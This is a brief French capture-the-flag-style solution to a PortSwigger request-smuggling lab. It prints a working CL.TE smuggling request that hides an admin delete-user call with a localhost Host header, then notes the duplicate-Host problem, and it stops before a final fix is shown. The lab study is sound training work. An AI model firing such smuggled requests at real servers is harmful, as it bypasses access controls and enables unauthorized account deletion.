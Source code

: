 # Lab

https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

## Solution


Ici les requêtes smuggled sont bloqués car elles ne viennent pas de l'host localhost.

```http
POST / HTTP/1.1
Host: 0a3a004e04f467c18085bc5000fd0090.web-security-academy.net
Cookie: session=piezWxvHuPxjqeji7w2GoaYhbFvKhVTg;
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```

Le problèle c'est que le header Host est présent deux fois dans la requête smuggled.

Pour contourner et bypass le deuxième Host, on peut faire une requete avec un body, ainsi les entêtes de la requête seront compris dans le body.